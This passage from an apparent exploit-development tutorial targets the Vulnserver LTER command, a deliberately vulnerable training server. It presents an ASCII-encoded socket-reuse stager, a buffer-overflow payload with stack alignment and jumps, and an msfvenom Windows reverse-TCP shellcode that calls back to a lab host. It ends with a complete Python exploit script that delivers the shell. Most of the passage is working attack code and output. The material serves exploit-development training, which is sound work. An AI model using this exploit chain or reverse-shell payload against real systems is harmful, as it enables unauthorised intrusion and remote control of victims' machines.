only a slight modification on the `ESP` alignment (2 bytes instead of 64). More
information of that stager on the link:../vulnserver-kstet/[KSTET writeup]:

.shellcode.asm
[source,x86asm]
----
sub esp,0x2		        ; Align ESP 2 bytes above
xor edi,edi             ; Zero out EDI
socket_loop:            ; Our bruteforce loop starts here
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'flags' parameter = 0
add bh,0x4              ; Make EBX = 00000400 = 1024 bytes
push ebx                ; Push `len` parameter = 1024 bytes
mov ebx,esp		        ; Move the current pointer of ESP into EBX
add ebx,0x64            ; Point EBX the original ESP to make it the pointer on
                        ; where our stage-2 payload will be received
push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
inc edi                 ; Make EDI = EDI + 1
push edi                ; Push socket handle `s` parameter = EDI = EDI + 1
mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
                        ; null bytes. So 40252C90 is shift-left padded with 90
shr eax,0x8             ; Remove the '90' byte of EAX by shifting right and
                        ; This makes EAX = 0040252C
call eax                ; Call recv()
test eax,eax            ; Check if our recv() call was successfully made
jnz socket_loop         ; If recv() failed, jump back to the socket loop where
                        ; EDI will be increased to check the next socket handle
----

We can compile that using `NASM`:

[source,console]
----
$ nasm -f elf32 -o shellcode.o shellcode.asm
----

And get the expected shellcode with:

[source,bash]
----
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x83\xec\x02\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47
\x57\xb8\x90\x2c\x25\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3
----

Now, let's encode that with our tool:

[source,console]
----
$ python3 ~/Automatic-ASCII-Shellcode-Subtraction-Encoder/encoder.py -m -p -s
'\x83\xec\x02\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47
\x57\xb8\x90\x2c\x25\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3' -v STAGER
...
Shellcode length: 234
Shellcode Output:

STAGER  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x6f\x27\x21\x2d'
STAGER += b'\x30\x37\x26\x2b\x2d\x30\x76\x21\x23\x50\x25\x50\x50\x4a\x50\x25'
STAGER += b'\x2a\x2a\x30\x2a\x2d\x7f\x3e\x26\x7a\x2d\x3c\x7e\x22\x60\x2d\x46'
STAGER += b'\x72\x31\x65\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x4f'
STAGER += b'\x6f\x6f\x61\x2d\x39\x6f\x77\x62\x2d\x38\x60\x30\x33\x50\x25\x50'
STAGER += b'\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7b\x75\x33\x37\x2d\x67\x7e'
STAGER += b'\x7b\x27\x2d\x66\x7b\x24\x7c\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a'
STAGER += b'\x30\x2a\x2d\x2d\x28\x2a\x62\x2d\x3e\x22\x3d\x22\x2d\x31\x62\x51'
STAGER += b'\x24\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7f\x76\x24'
STAGER += b'\x7f\x2d\x79\x7f\x35\x3e\x2d\x7f\x26\x22\x7f\x50\x25\x50\x50\x4a'
STAGER += b'\x50\x25\x2a\x2a\x30\x2a\x2d\x24\x67\x23\x23\x2d\x30\x68\x71\x28'
STAGER += b'\x2d\x2c\x69\x66\x61\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a'
STAGER += b'\x2d\x33\x30\x7a\x5d\x2d\x70\x6c\x68\x26\x2d\x5e\x31\x42\x28\x50'
STAGER += b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x2a\x2a\x22\x2d'
STAGER += b'\x21\x6e\x6d\x32\x2d\x31\x7b\x65\x7a\x50'
----

We need to align our `ESP` pointer again:

[source,x86asm]
----
push esp            ; Push the current value of ESP on the stack
pop eax             ; Pop it to EAX register
sub al,0x0b01       ; Substract 0x0b01 bytes from EAX
push eax            ; Push the resultant value of EAX to the stack
pop esp             ; Pop it back the ESP
----

And update our exploit with that. Remember to add a padding in the first
bytes so our long jump lands there and the execution slides to our stager:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'

STAGER  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x6f\x27\x21\x2d'
STAGER += b'\x30\x37\x26\x2b\x2d\x30\x76\x21\x23\x50\x25\x50\x50\x4a\x50\x25'
STAGER += b'\x2a\x2a\x30\x2a\x2d\x7f\x3e\x26\x7a\x2d\x3c\x7e\x22\x60\x2d\x46'
STAGER += b'\x72\x31\x65\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x4f'
STAGER += b'\x6f\x6f\x61\x2d\x39\x6f\x77\x62\x2d\x38\x60\x30\x33\x50\x25\x50'
STAGER += b'\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7b\x75\x33\x37\x2d\x67\x7e'
STAGER += b'\x7b\x27\x2d\x66\x7b\x24\x7c\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a'
STAGER += b'\x30\x2a\x2d\x2d\x28\x2a\x62\x2d\x3e\x22\x3d\x22\x2d\x31\x62\x51'
STAGER += b'\x24\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7f\x76\x24'
STAGER += b'\x7f\x2d\x79\x7f\x35\x3e\x2d\x7f\x26\x22\x7f\x50\x25\x50\x50\x4a'
STAGER += b'\x50\x25\x2a\x2a\x30\x2a\x2d\x24\x67\x23\x23\x2d\x30\x68\x71\x28'
STAGER += b'\x2d\x2c\x69\x66\x61\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a'
STAGER += b'\x2d\x33\x30\x7a\x5d\x2d\x70\x6c\x68\x26\x2d\x5e\x31\x42\x28\x50'
STAGER += b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x2a\x2a\x22\x2d'
STAGER += b'\x21\x6e\x6d\x32\x2d\x31\x7b\x65\x7a\x50'

PAYLOAD = (
    b'LTER .' +
    b'A' * 16 +
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x2d\x01\x0b' +   # SUB AX,0x0b01
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
    STAGER +
    b'A' * (3554 - 4 - 79 - 16 - 8 - len(STAGER)) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    LONG_JUMP +
    b'A' * (79 - 6 - len(LONG_JUMP)) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
    # This will trigger our stager
    fd.recv(1024)
----

And check it:

image::stager2.gif[Stager success]

Weeeh! Now to finish, we can create our shellcode and insert it on our side
channel created by the stager. As we now control the `recv()` call, we are not
limited by the bad chars now! Let's do that:

[source,console]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=none -f python -v SHELL
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of python file: 1660 bytes
SHELL =  b""
SHELL += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
SHELL += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
SHELL += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
SHELL += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
SHELL += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
SHELL += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
SHELL += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
SHELL += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
SHELL += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
SHELL += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
SHELL += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
SHELL += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
SHELL += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
SHELL += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
SHELL += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
SHELL += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8"
SHELL += b"\x00\x12\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
SHELL += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
SHELL += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
SHELL += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
SHELL += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
SHELL += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
SHELL += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
SHELL += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
SHELL += b"\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68\xa6"
SHELL += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
SHELL += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
----

Update our exploit:

[source,python]
----
import socket
import struct
import time

HOST = '192.168.0.20'
PORT = 9999

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'

STAGER  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x6f\x27\x21\x2d'
STAGER += b'\x30\x37\x26\x2b\x2d\x30\x76\x21\x23\x50\x25\x50\x50\x4a\x50\x25'
STAGER += b'\x2a\x2a\x30\x2a\x2d\x7f\x3e\x26\x7a\x2d\x3c\x7e\x22\x60\x2d\x46'
STAGER += b'\x72\x31\x65\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x4f'
STAGER += b'\x6f\x6f\x61\x2d\x39\x6f\x77\x62\x2d\x38\x60\x30\x33\x50\x25\x50'
STAGER += b'\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7b\x75\x33\x37\x2d\x67\x7e'
STAGER += b'\x7b\x27\x2d\x66\x7b\x24\x7c\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a'
STAGER += b'\x30\x2a\x2d\x2d\x28\x2a\x62\x2d\x3e\x22\x3d\x22\x2d\x31\x62\x51'
STAGER += b'\x24\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7f\x76\x24'
STAGER += b'\x7f\x2d\x79\x7f\x35\x3e\x2d\x7f\x26\x22\x7f\x50\x25\x50\x50\x4a'
STAGER += b'\x50\x25\x2a\x2a\x30\x2a\x2d\x24\x67\x23\x23\x2d\x30\x68\x71\x28'
STAGER += b'\x2d\x2c\x69\x66\x61\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a'
STAGER += b'\x2d\x33\x30\x7a\x5d\x2d\x70\x6c\x68\x26\x2d\x5e\x31\x42\x28\x50'
STAGER += b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x2a\x2a\x22\x2d'
STAGER += b'\x21\x6e\x6d\x32\x2d\x31\x7b\x65\x7a\x50'

SHELL =  b""
SHELL += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
SHELL += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
SHELL += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
SHELL += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
SHELL += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
SHELL += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
SHELL += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
SHELL += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
SHELL += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
SHELL += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
SHELL += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
SHELL += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
SHELL += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
SHELL += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
SHELL += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
SHELL += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8"
SHELL += b"\x00\x12\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
SHELL += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
SHELL += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
SHELL += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
SHELL += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
SHELL += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
SHELL += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
SHELL += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
SHELL += b"\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68\xa6"
SHELL += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
SHELL += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

# Create STAGE2 with the shellcode and pad the rest of the
# 1024 buffer with NOPs
STAGE2 = SHELL + b'\x90' * (1024 - len(SHELL))

PAYLOAD = (
    b'LTER .' +
    b'A' * 16 +
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x2d\x01\x0b' +   # SUB AX,0x0b01
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
    STAGER +
    b'A' * (3554 - 4 - 79 - 16 - 8 - len(STAGER)) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    LONG_JUMP +
    b'A' * (79 - 6 - len(LONG_JUMP)) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
    # This will trigger our stager
    fd.recv(1024)
    time.sleep(3)
    fd.sendall(STAGE2)
----

And check if we got a shell:

image::success.gif[Success]

Wonderful! It was easy, isn't it? No, it was not, but we learned a lot!

You can download the final exploit link:exploit.py[here]

== Conclusion

Dealing with bad chars when exploiting is very common. Commonly, encoders
from known tools like `msfvemon` will help us to overcome that restrictions
but there are some picky applications that will makes us drive the extra mile,
but it's worth it.
